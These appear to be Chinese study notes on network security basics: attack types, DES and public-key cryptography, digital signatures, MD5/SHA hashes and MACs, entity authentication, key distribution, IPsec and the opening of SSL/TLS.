[TOC]

### 网络安全

#### 网络安全问题概述

##### 1. 网络攻击

计算机网络上的通信面临以下两大类威胁：**被动攻击和主动攻击**。

**被动攻击**

- 指攻击者从网络上**窃听**他人的通信内容。
- 通常把这类攻击称为**截获**。
- 在被动攻击中，攻击者只是观察和分析某一个协议数据单元 PDU，以便了解所交换的数据的某种性质。但**不干扰信息流**。
- 这种被动攻击又称为流量分析 (traffic analysis)。



**主动攻击**主要有：

- **篡改**——故意篡改网络上传送的报文。这种攻击方式有时也称为更改报文流。
- **恶意程序**——种类繁多，对网络安全威胁较大的主要包括：计算机病毒、计算机蠕虫、特洛伊木马、逻辑炸弹、后门入侵、流氓软件等。
- **拒绝服务** **DoS**——指攻击者向互联网上的某个服务器不停地发送大量分组，使该服务器无法提供正常服务，甚至完全瘫痪。若从互联网上的成百上千的网站集中攻击一个网站，则称为分布式拒绝服务 DDoS。

**对策**

- 对于主动攻击，可以采取适当措施加以检测。
- 对于被动攻击，通常却是检测不出来的。
- 根据这些特点，可得出计算机网络通信安全的目标：
    （1）防止分析出报文内容和流量分析。
    （2）防止恶意程序。
    （3）检测更改报文流和拒绝服务。
- 对付被动攻击可采用各种数据加密技术。
- 对付主动攻击则需将加密技术与适当的鉴别技术相结合

##### 2. **数据加密模型**

- 加密和解密用的**密钥K** (key) 是一串秘密的字符串（即比特串）。
- 明文通过加密算法 E  和加密密钥 K  变成密文。
- 接收端利用解密算法 D 运算和解密密钥 K  解出明文 X。解密算法是加密算法的**逆运算**。

- 加密密钥和解密密钥可以一样，也可以**不一样**。
- 密钥通常由密钥中心提供。
- **当密钥需要向远地传送时，一定要通过另一个安全信道**。




#### 两类密码体制

##### 1. 对称密钥密码体制

###### ① 概述

所谓常规密钥密码体制，即**加密密钥与解密密钥是相同的密码体制**。这种加密系统又称为**对称密钥**系统。



数据加密标准 DES 属于**对称密钥密码体制**，是一种**分组密码**。

在加密前，先对整个明文进行分组。每一个组长为 64 位。然后对每一个 64 位 二进制数据进行加密处理，产生一组 64 位密文数据。最后将各组密文串接起来，即得出整个的密文。

使用的密钥为 64 位（**实际密钥长度为 56 位**，有 8 位用于奇偶校验)。 

DES 的**保密性仅取决于对密钥的保密**，其**算法是公开**的。目前较为严重的问题是 DES 的密钥的长度。现在已经设计出搜索 DES 密钥的专用芯片。56 位 DES 已不再认为是安全的了。 

###### **② 三重 DES**

- 使用两个 56 位的密钥。
- 把一个 64 位明文用一个密钥加密，再用另一个密钥解密，然后再使用第一个密钥加密。



##### 2. 公钥密码体制

###### ① 概述

公钥密码体制（又称为公开密钥密码体制）使用**不同的加密密钥与解密密钥**，是一种“由已知加密密钥推导出解密密钥在计算上是不可行的”密码体制。 

公钥密码体制产生的主要原因：
（1）常规密钥密码体制的密钥分配问题。
（2）对**数字签名**的需求。

在公钥密码体制中，**加密密钥 PK**（public key，即公钥）是向公众**公开**的，而**解密密钥 SK**（secret key，即私钥或秘钥）则是需要**保密**的。加密算法 E 和解密算法 D 也都是**公开**的。虽然私钥 SK 是由公钥 PK 决定的，但却**不能**根据 PK 计算出 SK。 

###### ② **公钥算法**

- 密钥对**产生器**产生出接收者 B 的一对密钥：**加密密钥 PKB 和解密密钥 SKB** 。
- 加密密钥 PKB 就是接收者 B 的**公钥**，它向公众**公开**。
- 解密密钥 SKB 就是接收者 B 的**私钥**，对其他人都**保密**。
- 发送者 A 用 B 的公钥 PKB 对明文 X 加密（E 运算）后，接收者 B 用自己的私钥 SKB 解密（D 运算），即可恢复出明文。



###### **③ 公开密钥与对称密钥的区别**

- 在使用**对称密钥**时，由于双方使用同样的密钥，因此在通信信道上可以进行**一对一的双向保密通信**，每一方既可用此密钥加密明文，并发送给对方，也可接收密文，用同一密钥对密文解密。这种保密通信仅限于持有此密钥的双方（如再有第三方就不保密了）。
- 在使用**公开密钥**时，在通信信道上可以是**多对一的单向保密通信**。


#### 数字签名

##### 1. 概述

用于证明**真实性**。

数字签名必须保证以下三点：
（1）报文鉴别——接收者能够核实发送者对报文的签名（**证明来源**）；
（2）报文的完整性——发送者事后不能抵赖对报文的签名（**防否认**）；
（3）不可否认——接收者不能伪造对报文的签名（**防伪造**）。

现在已有多种实现各种数字签名的方法。**但采用公钥算法更容易实现**。 



##### **2. 基于公钥的数字签名的实现**

因为除 A 外没有别人能具有 A 的私钥，所以除 A 外没有别人能产生这个密文。因此 B 相信报文 X 是 A 签名发送的。
若 A 要抵赖曾发送报文给 B，B 可将明文和对应的密文出示给第三者。第三者很容易用 A 的公钥去证实 A 确实发送 X 给 B。
反之，若 B 将 X 伪造成 X'，则 B 不能在第三者前出示对应的密文。这样就证明了 B 伪造了报文。 

##### **3. 具有保密性的数字签名**




#### 鉴别

在信息的安全领域中，对付**被动攻击**的重要措施是**加密**，而对付**主动攻击**中的**篡改和伪造**则要用**鉴别** (authentication)。
报文鉴别使得通信的接收方能够验证所收到的报文（发送者和报文内容、发送时间、序列等）的**真伪**。
使用**加密**就可达到**报文鉴别**的目的。但在网络的应用中，许多报文**并不需要**加密。应当使接收者能用很**简单的方法**鉴别报文的真伪。 

**鉴别分类**

- **报文鉴别**：即鉴别所收到的报文的确是报文的**发送者**所发送的，而不是其他人伪造的或篡改的。这就包含了**端点鉴别和报文完整性**的鉴别。
- **实体鉴别**：仅仅鉴别发送报文的**实体**。实体可以是一个人，也可以是一个进程（客户或服务器）。这就是**端点鉴别**。

##### 1. 报文鉴别

许多报文**并不需要加密**，但却需要**数字签名**，以便让报文的**接收者**能够鉴别报文的**真伪**。然而对很长的报文进行数字签名会使计算机增加很大的**负担**（需要进行很长时间的运算）。当我们传送不需要加密的报文时，应当使接收者能用**很简单**的方法鉴别报文的真伪。

###### ① 密码散列函数

**数字签名**就能够实现对报文的**鉴别**。但这种方法有一个很大的**缺点**：对较长的报文（这是很常见的）进行数字签名会使计算机增加非常大的负担，因为这需要**较多的时间**来进行运算。
**密码散列函数** (cryptographic hash function)是一种**相对简单**的对**报文进行鉴别**的方法。


散列函数的输入长度可以很长，但其**输出长度则是固定**的，并且较短。散列函数的输出叫做**散列值**，或称为散列。
不同的散列值肯定对应于不同的输入，但不同的输入却可能得出相同的散列值。这就是说，散列函数的输入和输出并非一一对应，而是**多对一**的。在密码学中使用的散列函数称为密码散列函数。具有**单向性**的特点。要找到两个不同的报文，它们具有同样的密码散列函数输出，在计算上是不可行的。也就是说，**密码散列函数实际上是一种单向函数** (one-way function)。

###### ② 密码散列函数MD5和SHA

通过许多学者的不断努力，已经设计出一些**实用的密码散列函数**（或称为散列算法），其中最出名的就是 **MD5 和 SHA-1**。SHA-1比 MD5 更安全，但计算起来却比 MD5 要慢些。

**MD5报文摘要算法**

MD5 是报文摘要 MD (Message Digest) 的第 5 个版本。MD5 的设计者 Rivest 曾提出一个猜想，即根据给定的 MD5 报文摘要代码，要找出一个与原来报文有相同报文摘要的另一报文，其难度在计算上几乎是不可能的。
基本思想：用足够复杂的方法将报文的数据位充分“弄乱”，报文摘要代码中的**每一位**都与**原来报文中的每一位有关**。

MD5 实现的报文鉴别**可以防篡改**，但**==不能防伪造==**，因而不能真正实现报文鉴别。

**MD5计算步骤**

1. 附加：把任意长的报文按模 264 计算其余数（64位），追加在报文的后面（长度项）。
2. 填充：在报文和长度项之间填充 1～512 位，使得填充后的总长度是 512 的整数倍。填充的首位是 1，后面都是 0。


3. 分组：把追加和填充后的报文分割为一个个 512 位的数据块，每个 512 位的报文数据再分成 4 个 128 位的数据块。
4. 计算：将 4 个 128 位的数据块依次送到不同的散列函数进行 4 轮计算。每一轮又都按 32 位的小数据块进行复杂的运算。一直到最后计算出 MD5 报文摘要代码（128 位）。

**SHA 安全散列算法 **

SHA 比 MD5 更安全，已制定 SHA-1、SHA-2、 SHA-3 等版本。现在用的基本都是高版本的。

###### ③ 报文鉴别码MAC

MD5 实现的报文鉴别可以**防篡改**，但**不能防伪造**，因而不能真正实现报文鉴别。

例如：

(1) 入侵者创建了一个伪造的报文 M，然后计算出其散列 H(M )，并把拼接有散列的扩展报文冒充 A 发送给 B。
(2) B 收到扩展的报文 (M, H(M )) 后， 通过散列函数的运算，计算出收到的报文 MR 的散列 H(MR)。
(3) 若 H(M ) = H(MR)，则 B 就会误认为所收到的伪造报文就是 A 发送的。

为防范上述攻击，可以**对散列进行一次加密**。散列加密后的结果叫做**报文鉴别码 MAC** (Message Authentication Code)。由于入侵者不掌握密钥 K，所以入侵者无法伪造 A 的报文鉴别码 MAC，因而无法伪造 A 发送的报文。这样就**完成了对报文的鉴别**。



所以现在**整个**的报文是**不需要加密**的。
虽然从散列 H 导出报文鉴别码 MAC 需要加密算法，但由于散列 H 的长度通常都远远小于报文 X 的长度，因此这种加密**不会消耗**很多的计算资源。因此，使用**鉴别码 MAC 就能够很方便地保护报文的完整性**。

##### 2. 实体鉴别

实体鉴别与报文鉴别不同。报文鉴别是对**每一个**收到的**报文**都要鉴别报文的发送者。**实体鉴别**是在系统接入的全部持续**时间内**对和自己通信的对方实体**只需验证一次**。 

**使用不重数进行鉴别**

在使用公钥密码体制时，可以对**不重数**进行签名鉴别。
B 用其**私钥对不重数** **RA** 进行签名后发回给 A。A 用 B 的公钥核实签名。如能得出自己原来发送的不重数 **RA**，就核实了和自己通信的对方的确是 B。
同样，A 也用自己的**私钥对不重数** **RB** 进行签名后发送给 B。B 用 A 的公钥核实签名，鉴别了 A 的身份。
公钥密码体制虽然不必在互相通信的用户之间秘密地分配共享密钥，但**仍有**受到攻击的可能。



如下面的**中间人**攻击。A 向 B 发送“我是 A”的报文，并给出了自己的身份。此报文被 “中间人” C 截获，C 把此报文原封不动地转发给 B。B 选择一个不重数 RB 发送给 A，但同样被 C 截获后也照样转发给 A。
中间人 C 用自己的私钥 SKC 对 RB 加密后发回给 B，使 B 误以为是 A 发来的。A 收到 RB 后也用自己的私钥 SKA 对 RB 加密后发回给 B，中途被 C 截获并丢弃。B 向 A 索取其公钥，此报文被 C 截获后转发给 A。



**使用公钥体制进行不重数鉴别**




#### 密钥分配

##### 1. 对称密钥的分配

目前常用的密钥分配方式是设立**密钥分配中心 KDC** (Key Distribution Center)。KDC 是大家都信任的机构，其任务就是给需要进行秘密通信的用户临时分配一个会话密钥（**仅使用一次**）。假设用户 A 和 B 都是 KDC 的登记用户，并已经在 KDC 的服务器上安装了各自和 KDC 进行通信的主密钥（master key）KA 和 KB。 “主密钥”可简称为“密钥”。



说明：为防止重放攻击，KDC 还可在报文中加入**时间戳**。会话密钥 KAB 是**一次性**的，因此保密性较高。KDC 分配给用户的密钥 KA 和 KB，应**定期更换**，以减少攻击者破译密钥的机会。

目前最出名的**密钥分配协议是 Kerberos V5**。

##### 2. 公钥的分配

在公钥密码体制中，如果**每个用户都具有其他用户的公钥**，就可实现安全通信。但不能随意公布用户的公钥，因为无法防止假冒和欺骗。使用者也无法确定公钥的真正拥有者。

需要有一个值得信赖的机构——**即认证中心 CA** (Certification Authority)，来将**公钥**与其对应的**实体**（人或机器）进行**绑定** (binding)。每个**实体**都有 **CA  发来的证书** (certificate)，里面有公钥及其拥有者的标识信息。此证书被 CA 进行了数字签名，是不可伪造的，可以信任。证书是一种身份证明，用于解决**信任问题**。


#### 安全协议

##### 1. 网络层安全协议

IP 安全性很差：

- 没有为通信提供良好的数据源鉴别机制；
- 没有为数据提供强大的完整性保护机制；
- 没有为数据提供任何机密性保护；
- 在设计和实现上存在安全漏洞，使各种攻击有机可乘。例如：攻击者很容易构造一个包含虚假地址的 IP 数据报。

- IP 几乎不具备任何安全性，**不能保证**：数据机密性、数据完整性、数据来源认证。
- 由于其在设计和实现上存在安全漏洞，使各种攻击有机可乘。例如：攻击者很容易构造一个包含虚假地址的 IP 数据报。
- **IPsec** 提供了标准、健壮且包含广泛的机制保证 IP 层安全。

###### **① IPsec协议族概述**

IPsec 就是**“IP 安全 (security)”**的缩写。IPsec 并不是一个单个的协议，而是能够在 IP 层提供互联网通信安全的**协议族**。IPsec 是个框架，它允许通信双方选择合适的算法和参数（例如，密钥长度）。为保证互操作性，IPsec 还包含了所有 IPsec 的实现都必须有的一套**加密算法**。

**组成**

（1）**IP 安全数据报格式**的两个协议

- 鉴别首部 AH (Authentication Header) 协议
- **封装安全有效载荷 ESP** (Encapsulation Security Payload) 协议

（2）**有关加密算法**的三个协议（在此不讨论）
（3）**互联网密钥交换 IKE** (Internet Key Exchange) 协议

AH 协议提供源点鉴别和数据完整性，但不能保密。ESP 协议比 AH 协议复杂得多，它提供源点鉴别、数据完整性和保密。**使用 ESP 或 AH 协议的 IP 数据报称为 ==IP 安全数据报==（或 ==IPsec数据报==）**。Ipsec 支持 IPv4 和 IPv6。AH 协议的功能都已包含在 ESP 协议中。

###### **② IP安全数据报的工作方式**

**运输方式**

在**==整个运输层报文段==**的前后分别添加若干**控制信息**，再加上 IP 首部，**构成 IP 安全数据报**。适合于主机到主机之间的安全传送。 需要使用 IPsec 的主机都运行 IPsec 协议。


**隧道方式**

在**==原始的 IP 数据报==**的前后分别添加若干**控制信息**，再加上新的 IP 首部，构成一个 IP 安全数据报。需要在 IPsec 数据报所经过的所有路由器上都运行 **IPsec 协议**。隧道方式常用来**实现虚拟专用网 VPN** 的加密。



无论使用哪种方式，最后得出的 IP 安全数据报的 **IP 首部都是不加密**的。所谓“安全数据报”是指数据报的**数据部分是经过加密**的，并能够被鉴别的。通常把数据报的数据部分称为数据报的有效载荷 (payload)。

###### ③ 安全关联

在发送 IP 安全数据报之前，在源实体和目的实体之间必须创建一条**网络层的逻辑连接**。此逻辑连接叫做**安全关联** SA (Security Association) 。**IPsec** 就把传统互联网无连接的网络层**转换为具有逻辑连接的网络层**。 

安全关联是从源点到终点的**单向连接**，它能够提供安全服务。在安全关联 SA 上传送的就是 **IP 安全数据报**。
如要进行双向安全通信，则两个方向都需要建立安全关联。若 n 个员工进行双向安全通信，一共需要创建 (2 + 2n ) 条安全关联 SA。

下图所示为路由器 R1到 R2 的安全关联 SA。







###### ④ IP 安全数据报的格式

**隧道**方式下的 IP 安全数据报的格式



##### 2. 运输层安全协议

###### ① 概述

现在广泛使用的有以下两个协议： 

- **安全套接字层协议 SSL** (Secure Socket Layer) 
- **运输层安全 TLS 协议** (Transport Layer Security)  

安全套接层 SSL 由 Netscape 于 1994 年开发，广泛应用于基于万维网的各种网络应用（但不限于万维网应用）。
SSL 作用在端系统应用层的 **HTTP 和运输层**之间，在 **TCP 之上建立起一个==安全通道==**，为通过 **TCP 传输的应用层**数据提供安全保障。
